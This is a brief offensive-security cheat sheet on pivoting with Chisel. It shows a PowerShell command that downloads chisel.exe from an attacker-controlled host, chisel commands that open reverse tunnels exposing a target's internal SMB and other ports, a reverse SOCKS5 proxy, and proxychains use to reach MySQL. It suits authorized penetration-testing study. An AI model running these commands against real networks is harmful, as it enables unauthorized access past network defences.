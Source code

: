 ```bash
Invoke-WebRequest -Uri http://<ip>:8000/chisel.exe -OutFile chisel.exe
```

```bash
./chisel.exe client <ip>:8080 R:445:localhost:445

chisel client <ip>:8080 R:3000:localhost:3000

chisel server --reverse --socks5
.\chisel.exe server --reverse --socks5
```
## Proxychains
```bash
chisel server --reverse --socks5 --port 9999

chisel client <ip>:9999 R:socks

proxychains mysql -u username -p password -h 127.0.0.1:1080
```

## Port Forwarding
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/
